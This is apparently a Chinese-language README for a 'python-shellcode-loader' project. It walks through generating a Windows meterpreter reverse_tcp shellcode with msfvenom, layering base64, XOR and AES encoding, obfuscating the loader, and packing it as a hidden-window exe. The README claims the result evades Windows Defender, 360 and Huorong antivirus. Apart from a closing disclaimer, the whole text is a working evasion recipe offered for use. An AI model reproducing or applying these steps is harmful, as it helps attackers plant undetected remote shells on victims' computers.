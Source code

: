 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
![](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525156343-d09e4ca2-cf34-4fd0-a214-8429d736233d.png#crop=0&crop=0&crop=1&crop=1&from=url&id=pOHgi&margin=%5Bobject%20Object%5D&originHeight=1017&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525200953-17958e93-4b05-4571-b721-1fa0899cab6f.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=609&id=uc52334d8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=761&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=true&size=152617&status=done&style=none&taskId=uf646b4ab-a4ff-4915-ac9c-247f27f5b44&title=%E7%81%AB%E7%BB%92&width=1028.8 "火绒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525256207-e8a9c46a-c6ed-4dbc-9b23-056590331f50.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=742&id=uba33cae1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=927&originWidth=1256&originalType=binary&ratio=1&rotation=0&showTitle=true&size=151849&status=done&style=none&taskId=ubcd89f76-ab00-4621-9849-4980386bb94&title=360%E6%9D%80%E6%AF%92&width=1004.8 "360杀毒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525285242-8ab59c49-ba44-4a08-a61c-8553204b4c6b.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=658&id=uc0ddad1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=823&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=true&size=199897&status=done&style=none&taskId=uf2de339b-8045-4277-af70-6d0879a609b&title=360%E5%AE%89%E5%85%A8%E5%8D%AB%E5%A3%AB&width=1008 "360安全卫士")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525389400-740f14b8-a7d0-49ea-aa96-81f3326ca4aa.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=752&id=u509ce450&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=true&size=103618&status=done&style=none&taskId=ud3c698a7-1fc9-48f1-abdf-20d66f4def9&title=virustotal&width=1526.4 "virustotal")<br />[运行示例.mp4](https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)
[![运行示例.mp4 (8.66MB)](https://gw.alipayobjects.com/mdn/prod_resou/afts/img/A*NNs6TKOR3isAAAAAAAAAAABkARQnAQ)]()<a name="w6pnE"></a>

## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











